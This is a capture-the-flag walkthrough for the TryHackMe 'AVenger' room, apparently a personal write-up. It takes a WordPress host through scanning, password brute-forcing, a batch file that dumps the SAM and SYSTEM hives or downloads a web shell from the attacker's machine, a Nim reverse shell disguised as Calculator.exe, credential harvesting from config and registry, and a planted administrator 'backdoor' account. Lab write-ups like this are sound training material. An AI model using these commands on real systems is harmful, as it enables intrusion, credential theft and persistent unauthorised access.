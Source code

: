 # AVenger

**Room Link:** [https://tryhackme.com/r/room/avenger](https://tryhackme.com/r/room/avenger)

**Scans**

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (978).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (979).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (984).png" alt=""><figcaption></figcaption></figure>



### **TCP/80 - HTTP** <a href="#tcp-80-http" id="tcp-80-http"></a>

**Find Pages**

There were too many 404 and 403 in the scan so I changed to ffuf to ignore them.

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

**Kali**

```
ffuf -u http://$VICTIM/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fc 404,403 -e .php,.html,.txt
```

<figure><img src="../../.gitbook/assets/image (981).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (980).png" alt=""><figcaption></figcaption></figure>





The gift folder takes us to avenger.tryhackme

<figure><img src="../../.gitbook/assets/image (982).png" alt=""><figcaption></figcaption></figure>



**Add hostname to host file**

**Kali**

```
echo $VICTIM avenger.tryhackme  >> /etc/hosts
cat /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (983).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ffuf -u http://avenger.tryhackme/gift/FUZZ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -fc 404,403 -e .php,.html,.txt
```



**Kali**

```
 wpscan --url http://avenger.tryhackme/gift --enumerate p
```

<figure><img src="../../.gitbook/assets/image (987).png" alt=""><figcaption></figcaption></figure>

**Bruteforce admin page**

**Kali**

```
wpscan --url http://avenger.tryhackme/gift --passwords /usr/share/wordlists/rockyou.txt
```



## Initial Shell

<figure><img src="../../.gitbook/assets/image (988).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
git clone https://github.com/flozz/p0wny-shell.git
cd p0wny-shell/ 
subl exploit.bat
```

**exploit.bat**

<pre><code><strong>@echo off
</strong>
:: Check if the current user is NT AUTHORITY\SYSTEM
whoami /groups | find "S-1-5-18" > nul

if %errorlevel% equ 0 (
    :: Run commands for NT AUTHORITY\SYSTEM
    reg.exe save HKLM\SYSTEM C:\xampp\htdocs\system.bak
    reg.exe save HKLM\SAM C:\xampp\htdocs\sam.bak
) else (
    :: Run commands for other users
    curl http://$KALI:82/shell.php -o C:\xampp\htdocs\shell.php
)
</code></pre>

I tried bypassing the file type restriction with the shell above, I could see the bat file running by seeing that it try to grab the shell.php file but I couldn't find a place to save the file where I could also see it on the website.

**Kali**

```
python2 -m SimpleHTTPServer 82
```

<figure><img src="../../.gitbook/assets/image (989).png" alt=""><figcaption></figcaption></figure>

Nim reverse shell worked because they accept exe files&#x20;

**Kali**

<pre><code>git clone https://github.com/Sn1r/Nim-Reverse-Shell.git
cd Nim-Reverse-Shell/
<strong>apt install mingw-w64 -y
</strong></code></pre>

**Kali**

```
curl https://nim-lang.org/choosenim/init.sh -sSf | sh
```

**Kali**

```
subl rev_shell.nim
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali #1**

```
/root/.nimble/bin/nim c -d:mingw  --app:gui --opt:speed -o:Calculator.exe rev_shell.nim
```

<figure><img src="../../.gitbook/assets/image (993).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (994).png" alt=""><figcaption></figcaption></figure>

**Kali #2**

```
rlwrap nc -lvnp 443
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Privilege Esclation**&#x20;

Found some credentials.

**Victim**

```
type C:\xampp\htdocs\gift\wp-config.php
```

<figure><img src="../../.gitbook/assets/image (995).png" alt=""><figcaption></figcaption></figure>

From my computer I could access the mysql.

**Kali**

```
apt install mysql-client-core-5.7   
mysql -h$VICTIM -ugift -pSurpriseMF
```

I was able to find a password but couldn't crack it&#x20;

**Kali(mysql)**

```
select * from mysql -h$VICTIM -ugift -pSurpriseMF
use gift;
show tables;
select * from wp_users;
```

<figure><img src="../../.gitbook/assets/image (992).png" alt=""><figcaption></figcaption></figure>

I found a password

**Victim**

```
reg query HKLM /f password /t REG_SZ /s
```

<figure><img src="../../.gitbook/assets/image (18) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
remmina
Username: hugo
Password: SurpriseMF123!
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I can run a administrator shell from the GUI

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
net user backdoor pass!123 /add
net localgroup Administrators "Remote Desktop Users"  backdoor /add
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v forceguest /t reg_dword /d 0 /f
```



**Kali**

```
remmina
Username: backdoor 
Password: pass!123
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
